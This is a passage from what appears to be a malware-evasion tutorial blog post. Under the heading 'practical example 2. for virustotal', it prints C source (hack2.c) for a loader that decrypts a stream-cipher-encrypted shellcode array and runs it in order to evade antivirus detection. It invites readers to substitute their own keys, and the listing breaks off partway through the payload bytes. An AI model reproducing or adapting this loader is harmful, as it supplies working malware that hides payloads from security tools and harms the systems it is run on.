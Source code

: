 As you can see, everything is worked perfectly! =^..^=    

### practical example 2. for virustotal

The second example is just for checking VirusTotal results for this: let's say we have encrypted payload, we decrypt it and run (`hack2.c`).     

```cpp
/*
 * hack2.c
 * modular multiplication based block cipher (stream cipher)
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/26/malware-av-evasion-18.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

// change these to your own keys
#define MULTIPLIER 0x12345
#define INCREMENT  0x6789

uint32_t state = 0;

void seed(uint32_t seed_value) {
  state = seed_value;
}

uint32_t next_random() {
  // the modulus is 2^32, since we're using a uint32_t
  state = (MULTIPLIER * state + INCREMENT);
  return state;
}

void mmb_encrypt(unsigned char *data, size_t len) {
  for(size_t i = 0; i < len; ++i) {
    // encrypt one byte at a time
    uint32_t rand = next_random();
    data[i] ^= (rand & 0xFF); // only use the least significant byte
  }
}

void mmb_decrypt(unsigned char *data, size_t len) {
  // decryption is the same as encryption for this cipher
  mmb_encrypt(data, len);
}

int main() {
  unsigned char padded[] = 
  "\x1a\xcf\x6d\xc1\x72\x6c\xd7\xae\xb6\x0f\xa4\xbd\x7a"
  "\x2a\x31\x28\x86\x65\x0d\x03\x3a\x72\x4a\xe4\x06\x04"
  "\x46\x8d\x54\x53\x5b\xcb\xde\xd9\x84\x0e\x30\xd3\x36"
  "\xf9\xb5\x4d\xd4\x23\x12\xc4\xf7\x83\xfc\xda\x0d\x7c"
  "\x1a\x92\xb8\x4d\x12\x8e\x88\x4f\x66\x5b\xf1\x38\x6f"
  "\x4a\xed\xe4\x83\xb1\x05\x43\x5f\xce\x5a\x35\xb1\x79"
  "\x00\x17\x1d\xb5\x20\x5d\x33\xd3\x66\xca\x8e\xc7\xd4"
  "\xad\x2a\x93\x15\x99\xf2\xc8\xc4\x44\xf2\xe3\xf6\xfa"
  "\xb6\xe7\x7a\x99\x91\xcb\x20\xc0\x77\x87\x1f\x29\x5a"
  "\x9c\xf1\x9f\xaf\x24\x80\x85\x42\x3a\xa6\xf4\x57\xce"
  "\x24\x94\xc2\xbf\xe9\x10\x17\x52\x65\x3c\x3b\xd3\x00"
  "\x9c\xa7\x89\x90\xd6\xbe\xe7\x10\x44\xf7\xde\xe1\xbb"
  "\xb2\xa5\x14\x92\x06\x43\x05\x04\x32\x15\xb6\x70\x35"
```